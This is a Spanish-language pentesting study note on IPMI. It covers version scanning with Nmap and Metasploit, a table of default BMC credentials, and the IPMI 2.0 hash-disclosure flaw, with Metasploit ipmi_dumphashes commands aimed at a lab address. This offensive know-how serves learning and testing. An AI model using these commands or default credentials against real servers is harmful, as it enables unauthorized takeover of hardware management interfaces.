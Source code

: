 Aquí podemos ver que el protocolo IPMI está escuchando en el puerto 623 y que Nmap ha identificado la versión 2.0 del protocolo.


### Escaneo con Metasploit
De la misma forma, con metasploit podemos analizar la versión con:
```
msfconsole
use auxiliary/scanner/ipmi/ipmi_version
show options
set RHOSTS 1.2.3.4
run
```

-----------

# Credenciales por defecto de servidores IPMI

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|


# IPMI 2.0 - Vulnerabilidad
**¿Cuál es el problema con IPMI 2.0?**
- Para acceder a la BMC, hay que autenticarse con un usuario y contraseña.
- En IPMI 2.0, durante el proceso de autenticación, el servidor envía al cliente un hash de la contraseña (una versión “encriptada” de la contraseña) _antes_ de que termine la autenticación.
- Esto es un problema porque si un atacante captura ese hash, puede intentar descifrar la contraseña sin necesidad de estar conectado o de adivinarla directamente.

**¿Cómo se aprovecha esta falla?**
- Se conecta al servidor IPMI y se captura ese hash que el servidor envía.
- Luego, con herramientas como **Hashcat**, se realiza un ataque offline (sin conexión) usando diccionarios o pruebas de combinaciones para encontrar la contraseña original.
- En algunos servidores, como los HP iLO, las contraseñas por defecto suelen ser de 8 caracteres combinando mayúsculas y números, lo que facilita que un ataque de fuerza bruta termine rápido.
- Una vez que se obtiene la contraseña, se puede acceder a la BMC y tomar control total del servidor, incluyendo acceso SSH como root y administración de otras herramientas críticas.

**Herramientas que ayudan a explotar o analizar esta vulnerabilidad:**
- **Metasploit** tiene un módulo específico para obtener estos hashes remotamente.
- **Hashcat**, que sirve para descifrar esos hashes offline.

## Uso de METASPLOIT para IPMI 2.0


```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
```